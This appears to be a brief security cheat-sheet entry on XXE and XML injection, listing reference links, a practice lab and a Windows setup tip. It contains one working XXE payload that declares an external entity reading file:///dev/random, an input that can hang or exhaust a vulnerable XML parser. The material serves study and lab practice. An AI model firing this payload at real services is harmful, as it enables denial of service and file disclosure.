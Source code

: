 ## XXE and XML Injection
Reference
```
https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection
```

Payload
```
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///dev/random" >]><foo>&xxe;</foo>
```
OOB XXE Lab
```
https://github.com/fl0rde/xxe-challenge
```
You may need this for above lab on Windows
```
https://stackoverflow.com/questions/41183590/php-file-get-contents-with-zip-failed-to-open-stream-operation-failed
```
